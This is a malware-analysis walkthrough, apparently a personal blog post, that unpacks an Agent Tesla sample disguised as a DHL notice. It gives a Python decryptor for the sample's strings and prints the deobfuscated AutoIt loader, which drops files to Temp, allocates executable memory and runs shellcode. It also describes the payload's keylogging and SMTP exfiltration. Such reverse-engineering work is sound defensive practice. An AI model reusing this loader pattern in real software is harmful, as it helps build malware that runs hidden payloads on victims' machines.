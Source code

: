 ## Agent Tesla AutoIt Deobfuscation

Just a demo on how to unpack Agent Tesla AutoIt compiled executables.

SHA256: afec7242f5c41610ecb994d22fc8243a58866ed6c4c11a1544cca10019fe0a07

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/2414e7d0-34ff-4faf-9654-36835806c848)

`DHL Arrival Notice.exe` looks like a compiled AutoIt script, as Detect-It-Easy suggested and mentions of it in IDA.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/818c3004-a1bf-41b7-9bf2-6ac2ec4b8e42)

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/619e0b78-8deb-46f2-9881-217d66dba20c)

[Exe2Aut](https://exe2aut.com/exe2aut-converter/) is able to decompile this back into a .au3 file for easier analysis. But the script still looks highly obfuscated, with 2655 lines of code.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/99763024-7fd4-48ef-bda6-e37c745c8443)

Majority of the contents especially the for-loop constructs in the middle are dummy code. 

We can see 2 embedded files `renowner` and `palladize` are extracted and moved into the user’s Temp directory. 

I opened them up in HXD, `palladize` looks weird, and `renowner` looks like encrypted.

There’s a few reference to the function `x30qqzpyj` which looks like it is being used for string decryption, since the return values are used as parameters to calls like `Execute`, `DllCall`, etc. 

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/eac0cdb1-3b1c-4289-8ced-7c4f31990b96)

We can try to translate this function into Python, simulate and print out the results of the decryption for every call we see to it in the script:

```python
import re

def x30qqzpyj(p, b):
    d = len(b)
    v = len(p)
    k = [None] * v
    a = [None] * v
    m = ""

    for h in range(1, v + 1):
        k_index = (ord(b[(h - 1) % d]) * h % v)
        while k[k_index] is not None:
            k_index = (k_index + 1) % v
        k[k_index] = h - 1
    
    for h in range(1, v + 1):
        a[k[h - 1]] = p[h - 1]
    
    m = "".join(a)
    
    # XOR encryption
    j = ""
    for h in range(1, len(m) + 1):
        t = ord(m[h - 1])
        m_ord = ord(b[(h - 1) % d])
        j += chr((t - 5) ^ m_ord)
    
    return j

file_content = ""
with open("afec7242f5c41610ecb994d22fc8243a58866ed6c4c11a1544cca10019fe0a07.au3", "r") as file:
    file_content = file.read()

# Regex to find function calls
pattern = r"x30qqzpyj\((\".*?\"),\s*(\".*?\")\)"
matches = re.findall(pattern, file_content)

# Execute the function with the parameters found
for match in matches:
    param1 = match[0].strip("\"")  # Remove the double quotes if necessary
    param2 = match[1].strip("\"")
    result = x30qqzpyj(param1, param2)
print(f"Parameters: {param1}, {param2} -> Result: {result}")
```

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/fe861d58-bb1b-4f3a-a3d3-8c7efeaf7c68)

Sweet! Now we can plug them into the .au3 script.

```au3
FileInstall("renowner", @TempDir & "\renowner", 1)
FileInstall("palladize", @TempDir & "\palladize", 1)
Global $o30ytu4gil = Execute('FileRead(FileOpen(@TempDir  & "\palladize"))')
$o30ytu4gil = Execute('StringReplace($O30ytU4giL, "8D6804F867D7E3ED21599F86932DA5673082A29A59B06B261C54E6F1DF089BBB368C973697738FDC88", "")')
$l33eqfulh = DllCall("kernel32", "ptr", "VirtualAlloc", "dword", 0, "dword", BinaryLen($o30ytu4gil), "dword", 0x3000, "04"), "dword", 0x40)
$l33eqfulh = $l33eqfulh[0]
$b374rm9zkrm = DllStructCreate([ & BinaryLen($o30ytu4gil) & ], $l33eqfulh)
DllStructSetData($b374rm9zkrm, 1, $o30ytu4gil)
DllCallAddress("int", $l33eqfulh + 9136)
```

We can see that the beginning of the `palladize` file which starts with `8D6804F867D7E3ED21599F86932DA5673082A29A59B06B261C54E6F1DF089BBB368C973697738FDC88` is removed entirely. Then, a memory allocation with  `PAGE_EXECUTE_READWRITE` permissions, a structure created at the allocated memory address, storing the binary data of `$o30ytu4gil`. Then, it looks like it is calling a function at offset `9136` or `0x23B0`of the memory allocation, so `palladize` probably shellcode. 
Here's what `palladize` looks like with the bytes at the beginning removed:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/298bbbac-29ab-4295-a4d6-85d952f60889)

Looks like the decoded text is still in hex representation. We can convert them into actual hex values first and then open it up in IDA. The entry point would be at offset `0x23B0`.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/b9fc2503-09e2-46a7-bdf1-4572dd2f4e54)

Right away, there is a reference to the other file `renower`, which was dropped in the Temp directory. A constant that looks like a key is also copied into `v9`, and passed into `sub22E0`. `sub22E0` just looks like a simple XOR decryption loop. 

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/1f3238a0-865c-48e2-a930-de9f3f5261e7)

There are a bunch of API resolving routines before this, but we can just assume that the file `renowner` can be decrypted with the key. Sure enough, it’s another MZ file! DIE recognized it as a .NET file.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/4fcc56d8-8e90-4656-8da6-3bd1fdc160bb)

Saving the file and opening up in dnSpy, we can see the code for Agent Tesla, some keylogging capabilities:

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/7068ed61-f839-4661-b5b3-78c7e08bcf25)

And its config in the `Stu4Un2` class, where data is exfiltrated via SMTP.

![image](https://github.com/jiayuchann/jiayuchann.github.io/assets/58498244/5a6943b1-8491-4116-9e05-531ae154285d)
